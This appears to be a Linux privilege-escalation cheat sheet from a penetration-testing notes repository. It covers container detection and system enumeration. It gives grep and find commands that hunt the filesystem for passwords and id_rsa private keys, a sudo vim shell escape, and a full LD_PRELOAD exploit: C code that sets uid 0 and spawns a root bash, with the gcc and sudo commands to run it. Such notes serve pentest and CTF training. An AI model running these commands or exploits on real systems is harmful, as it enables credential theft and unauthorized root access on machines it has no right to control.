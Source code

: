 ### Platform/Software Specific Tests
- Checks to determine if we're in a Docker container (`grep -q docker /proc/1/cgroup && echo Running in Docker`)
- Checks to see if the host has Docker installed (`docker --version`)
- Checks to determine if we're in an LXC container (`grep -q lxc /proc/1/cgroup && echo Running in LXC`)



## Some more Enumeration:
* System Enum: `cat/proc/version`, `cat /etc/issue`,  `uname -a` , `lscpu`...
* What Services are running? Who is the owner? `ps -aux | grep root`

## Password Hunting with Grep:

* `find / -name "*password*" -perm -u+r 2> /dev/null`
* `grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2> /dev/null`
* `find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;`
* `locate password | more`
* `find / -name id_rsa 2> /dev/null`

## Preseed
A preseed.cfg file is used in Debian-based Linux distributions to automate the installation process. It contains answers to the questions that the installer normally asks, allowing for a fully unattended installation.  Think about Canonical MaaS installed by snap!


## Sudo Overview Shell escaping:

**GTFOBins:** [Shell escaping techniques](https://gtfobins.github.io/) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

```sh
sudo vim -c ':!/bin/sh'
```

## Sudo LD_PRELOAD Exploitation
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
```sh
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
sudo LD_PRELOAD=/tmp/x.so apache2
id
```
